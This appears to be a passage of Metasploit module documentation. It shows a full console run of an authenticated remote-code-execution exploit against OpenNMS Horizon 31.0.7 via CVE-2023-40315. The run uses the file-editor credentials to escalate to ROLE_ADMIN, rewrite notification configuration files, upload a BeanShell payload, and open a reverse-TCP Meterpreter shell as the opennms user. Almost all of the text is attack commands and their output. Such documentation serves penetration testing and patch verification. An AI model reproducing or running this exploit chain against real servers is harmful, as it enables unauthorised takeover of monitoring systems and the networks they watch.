 ### OpenNMS Horizon 31.0.7 - Exploitation via CVE-2023-40315
```
msf exploit(linux/http/opennms_horizon_authenticated_rce) > set username file
username => file
msf exploit(linux/http/opennms_horizon_authenticated_rce) > set password file
password => file
msf exploit(linux/http/opennms_horizon_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.91.196:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] The target is OpenNMS version 31.0.7 and is likely vulnerable to CVE-2023-40315 and CVE-2023-0872.
[+] The target appears to be vulnerable. User file has ROLE_FILESYSTEM_EDITOR privileges. Exploitation is likely possible via CVE-2023-40315.
[*] Waiting 3 seconds for the changes to be saved...
[+] Successfully escalated privileges by adding ROLE_ADMIN
[*] Successfully edited notificationCommands.xml
[*] Successfully edited destinationPaths.xml
[*] Successfully edited notifications.xml
[+] Successfully uploaded the payload to thwjtslfaqsg.bsh
[*] Triggering the notification to execute the payload
[*] Received expected response while triggering the payload. Please be patient, it may take a few seconds for the payload to execute.
[*] Sending stage (3045380 bytes) to 172.20.0.2
[*] Meterpreter session 1 opened (192.168.91.196:4444 -> 172.20.0.2:51914) at 2023-12-13 17:40:16 +0200
[*] Attempting cleanup...

meterpreter > getuid
Server username: opennms

```
